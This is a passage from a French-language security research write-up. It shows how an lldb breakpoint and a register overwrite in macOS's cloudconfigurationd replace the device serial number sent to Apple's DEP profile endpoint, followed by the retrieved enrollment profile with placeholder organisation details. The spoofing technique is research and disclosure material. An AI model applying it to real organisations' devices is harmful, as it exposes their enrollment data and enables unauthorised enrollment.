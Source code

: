 ```
}
```
La liste ci-dessus effectue les actions suivantes :

* Crée un point d'arrêt d'expression régulière pour le sélecteur `dataWithJSONObject`
* Attend que le processus `cloudconfigurationd` démarre, puis s'y attache
* Poursuit l'exécution du programme (car le premier point d'arrêt que nous avons atteint pour `dataWithJSONObject` n'est pas celui appelé sur le `profileRequestDictionary`)
* Crée et affiche (en format hexadécimal en raison de `/x`) le résultat de la création de notre `NSDictionary` arbitraire
* Puisque nous connaissons déjà les noms des clés requises, nous pouvons simplement définir le numéro de série sur l'un de nos choix pour `sn` et laisser `action` inchangé
* L'impression du résultat de la création de ce nouveau `NSDictionary` nous indique que nous avons deux paires clé-valeur à une adresse mémoire spécifique

Notre dernière étape consistait à répéter la même étape d'écriture dans `rdx` l'emplacement mémoire de notre objet `NSDictionary` personnalisé qui contient notre numéro de série choisi :
```
(lldb) register write $rdx 0x00007ff068c2e5a0  # Rewrite the `rdx` register to point to our new variable
(lldb) continue
```
Ceci pointe le registre `rdx` vers notre nouveau `NSDictionary` juste avant qu'il ne soit sérialisé en [JSON](https://www.json.org) et envoyé en `POST` à _iprofiles.apple.com/macProfile_, puis le flux du programme `continue`.

Cette méthode de modification du numéro de série dans le dictionnaire de demande de profil avant sa sérialisation en JSON a fonctionné. Lorsque l'on utilise un numéro de série Apple enregistré DEP connu à la place de (null), le journal de débogage de `ManagedClient` a montré le profil DEP complet pour le dispositif :
```
Apr  4 16:21:35[660:1]:+CPFetchActivationRecord fetched configuration:
{
AllowPairing = 1;
AnchorCertificates =     (
);
AwaitDeviceConfigured = 0;
ConfigurationURL = "https://some.url/cloudenroll";
IsMDMUnremovable = 1;
IsMandatory = 1;
IsSupervised = 1;
OrganizationAddress = "Org address";
OrganizationAddressLine1 = "More address";
OrganizationAddressLine2 = NULL;
OrganizationCity = A City;
OrganizationCountry = US;
OrganizationDepartment = "Org Dept";
OrganizationEmail = "dep.management@org.url";
OrganizationMagic = <unique string>;
OrganizationName = "ORG NAME";
OrganizationPhone = "+1551234567";
OrganizationSupportPhone = "+15551235678";
OrganizationZipCode = "ZIPPY";
SkipSetup =     (
AppleID,
Passcode,
Zoom,
Biometric,
Payment,
TOS,
TapToSetup,
Diagnostics,
HomeButtonSensitivity,
Android,
Siri,
```